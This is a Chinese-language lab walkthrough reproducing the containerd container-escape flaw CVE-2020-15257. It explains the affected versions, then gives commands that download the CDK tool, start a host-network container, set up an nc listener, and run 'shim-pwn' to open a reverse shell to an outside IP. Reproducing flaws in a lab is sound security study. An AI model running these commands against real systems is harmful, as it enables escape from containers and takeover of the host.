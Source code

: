 # **CVE-2020-15257 容器逃逸**

参考：https://blog.51cto.com/u_15274949/2922084

## 1.漏洞简介

containerd是行业标准的容器运行时，可作为Linux和Windows的守护程序使用。在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。

**影响版本**：containerd < 1.4.3	containerd < 1.3.9

**安全版本**：containerd >= 1.4.3	containerd >= 1.3.9

## 2.实验步骤

### 2.1 实验环境搭建

docker安装后containerd默认已安装，所以这里直接安装docker，查看dockerd版本

```bash
docker version
```

![image-20211201092026219](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201092026219.png)

### 2.2 下载poc

漏洞利用使用github上的poc进行复现

```bash
mkdir cve-2020-15257

cd cve-2020-15257

wget https://github.com/cdk-team/CDK/releases/download/0.1.6/cdk_v0.1.6_release.tar.gz

tar -zxvf cdk_v0.1.6_release.tar.gz
```

![image-20211201092525907](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201092525907.png)

### 2.3 查看内核版本

下载完成后查看虚拟机内核版本，将poc中对应的版本传到虚拟机中

```bash
uname -a
```

![image-20211201095741267](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201095741267.png)

### 2.4 启动容器并拷贝poc

通过--net=host作为启动参数运行一个容器

```bash
docker run -it --net=host ubuntu:18.04 /bin/bash
```

![image-20211201100021261](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100021261.png)

把poc拷贝到容器里

```bash
docker ps |grep ubuntu
```

![image-20211201100205412](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100205412.png)

![image-20211201100224979](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100224979.png)

### 2.5 执行反弹shell

在另一台机器上（192.168.32.12）使用nc监听

```bash
nc -lvp 6767
```

![image-20211201100400715](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100400715.png)

在容器里执行poc反弹shell，完成逃逸

```bash
./cdk_linux_386 run shim-pwn 192.168.32.12 6767
```

![image-20211201100540961](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100540961.png)

![image-20211201100623706](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211201100623706.png)











